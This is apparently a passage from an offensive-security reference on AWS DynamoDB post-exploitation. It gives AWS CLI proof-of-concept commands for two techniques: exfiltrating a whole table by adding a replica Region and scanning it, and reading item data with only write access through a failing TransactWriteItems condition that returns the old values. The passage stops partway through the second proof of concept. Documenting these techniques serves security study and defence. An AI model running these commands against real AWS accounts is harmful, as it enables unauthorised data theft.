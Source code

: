 {{#tabs }}
{{#tab name="PoC (default DynamoDB-managed KMS)" }}

```bash
# Add a new replica Region (from primary Region)
aws dynamodb update-table \
  --table-name <TableName> \
  --replica-updates '[{"Create": {"RegionName": "<replica-region>"}}]' \
  --region <primary-region>

# Wait until the replica table becomes ACTIVE in the replica Region
aws dynamodb describe-table --table-name <TableName> --region <replica-region> --query 'Table.TableStatus'

# Exfiltrate by reading from the replica Region
aws dynamodb scan --table-name <TableName> --region <replica-region>
```

{{#endtab }}
{{#tab name="PoC (customer-managed KMS)" }}

```bash
# Specify the CMK to use in the replica Region
aws dynamodb update-table \
  --table-name <TableName> \
  --replica-updates '[{"Create": {"RegionName": "<replica-region>", "KMSMasterKeyId": "arn:aws:kms:<replica-region>:<account-id>:key/<cmk-id>"}}]' \
  --region <primary-region>
```

{{#endtab }}
{{#endtabs }}

Permissions: `dynamodb:UpdateTable` (with `replica-updates`) or `dynamodb:CreateTableReplica` on the target table. If CMK is used in the replica, KMS permissions for that key may be required.

Potential Impact: Full-table replication to an attacker-controlled Region leading to stealthy data exfiltration.

### `dynamodb:TransactWriteItems` (read via failed condition + `ReturnValuesOnConditionCheckFailure=ALL_OLD`)

An attacker with transactional write privileges can exfiltrate the full attributes of an existing item by performing an `Update` inside `TransactWriteItems` that intentionally fails a `ConditionExpression` while setting `ReturnValuesOnConditionCheckFailure=ALL_OLD`. On failure, DynamoDB includes the prior attributes in the transaction cancellation reasons, effectively turning write-only access into read access of targeted keys.

{{#tabs }}
{{#tab name="PoC (AWS CLI >= supports cancellation reasons)" }}

```bash
# Create the transaction input (list form for --transact-items)
cat > /tmp/tx_items.json << 'JSON'
[
  {
    "Update": {
      "TableName": "<TableName>",
      "Key": {"<PKName>": {"S": "<PKValue>"}},
      "UpdateExpression": "SET #m = :v",
      "ExpressionAttributeNames": {"#m": "marker"},
      "ExpressionAttributeValues": {":v": {"S": "x"}},
      "ConditionExpression": "attribute_not_exists(<PKName>)",
      "ReturnValuesOnConditionCheckFailure": "ALL_OLD"
    }
  }
]
JSON
```